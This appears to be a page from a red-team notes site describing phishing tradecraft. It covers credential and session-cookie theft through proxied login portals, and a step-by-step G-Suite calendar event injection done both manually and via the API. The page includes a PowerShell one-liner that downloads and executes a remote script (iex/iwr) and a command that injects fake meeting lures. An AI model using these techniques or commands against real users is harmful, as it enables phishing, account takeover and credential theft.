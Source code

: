 ```yaml
---
### The title for the content.
title : "phising"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "phising."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Phising

### Session Hijack

Steal creds and/or session cookies. Can be useful when client has good prevention against shells.

Email a link to a target employee pointing to a cloned/proxied auth portal (Microsoft Online(O365, Azure), G-suite. AWS Console).
When they auuth they get a real session cookies, and so do we.

Tools: [Evilginx2](https://github.com/kgretzky/evilginx2), [Modlishka](https://github.com/drk1wi/Modlishka)

When we get session we need to act fast and setup persistence.

### G-suite

G-Suite allowed for Calendar Event Injection. This allows a attacker to silently (without the need for a e-mail by using the API) inject a calendar entry to the users calender. This bypasses the "Don't auto-add" options. Doing something like this will create urgency with a reminder notification.

#### Manual

This can be prevented by setting 'Event settings -> Automatically add invitations' to 'No, only show invitations to which I have responded.'

1. Create a new gmail account with a convincing name
2. Prepair your payload of choice and make it available externally (for example with pwndrop)
3. Open `https://calendar.google.com/calendar/` while logged into your new account.
4. Create a new calendar event, make sure to set a reminder.
![Calendar Event Injection](images/g-suite-cal-injection01.png)
5. Ensure you click do not send.
![Calendar Event Injection](images/g-suite-cal-injection02.png)
6. The user will recieve a notification when the 'meeting' is supposed to happen.
![Calendar Event Injection](images/g-suite-cal-injection03.png)

![Calendar Event Injection](images/g-suite-cal-injection04.png)

##### API

1. logon into the account you want to inject as
2. open `https://console.developers.google.com/flows/enableapi?apiid=calendar&pli=1`
3. Select Project and agree the ToS  
![Calendar Event Injection](images/g-suite-cal-injection_api_01.png)
4. On the "Add credentials to your project" page click cancel.
5. At the top of the page, select the "OAuth consent screen" tab. Select an Email address, enter a Product name if not already set, and click the Save button.  
![Calendar Event Injection](images/g-suite-cal-injection_api_02.png)
6. Select the Credentials tab, click the Create credentials button and select OAuth client ID.  
![Calendar Event Injection](images/g-suite-cal-injection_api_03.png)
7. Select the application type Web application, under "Authorized redirect URIs" paste in the following address: `https://developers.google.com/oauthplayground`. Then, click the Create button.  
![Calendar Event Injection](images/g-suite-cal-injection_api_04.png)
8. Copy your "Client ID" and "Client Secret".
9. Navigate here: `https://developers.google.com/oauthplayground/`.
10. Click the "gear icon" in the upper right corner and check the box to "Use your own OAuth credentials". Enter the OAuth2 client ID and OAuth2 client secret in the boxes.
11. Make sure that "OAuth flow" is set to Server-side, and "Access Type" is set to offline.
![Calendar Event Injection](images/g-suite-cal-injection_api_05.png)
12. Select the "Calendar API v3" dropdown and click both URLs to add them to scope. Click Authorize APIs.
![Calendar Event Injection](images/g-suite-cal-injection_api_06.png)
13. Select the account you want to authorize, then click Allow.
![Calendar Event Injection](images/g-suite-cal-injection_api_07.png)
(If there is an error such as "Error: redirect_uri_mismatch" then it’s possible the changes haven’t propagated yet. Just wait a few minutes, hit the back button and try to authorize again.).
![Calendar Event Injection](images/g-suite-cal-injection_api_07-2.png)
14. You should now be at "Step 2: Exchange authorization code for tokens." Click the "Exchange authorization code for tokens button". The "Access token" is the item we need for accessing the API. Copy the value of the "Access token".
![Calendar Event Injection](images/g-suite-cal-injection_api_08.png)
P.S. The "Access token" expires after 3600 seconds.

```powershell
PS C:\Users\justin-p> iex((iwr https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1).content)
PS C:\Users\justin-p> Invoke-InjectGEventAPI -PrimaryEmail Injector@gmail.com -AccessToken 'TOKEN' -Targets "InjectToMe@gmail.com" -StartDateTime 2020-09-02T15:20:00 -EndDateTime 2020-09-02T15:30:00 -EventTitle "Company Meeting" -EventDescription "Please review the agenda at the URL below prior to the meeting. https://ElRandoUrl" -EventLocation "Zoom app goes Bzzzzzzzz"
```

### Remote Access

Try to comprise workstations. This would (depending on the user) give access to internal and other cloud resources.
Allows us to steal tokens from disk, preform session hijack/riding or start keyloggers.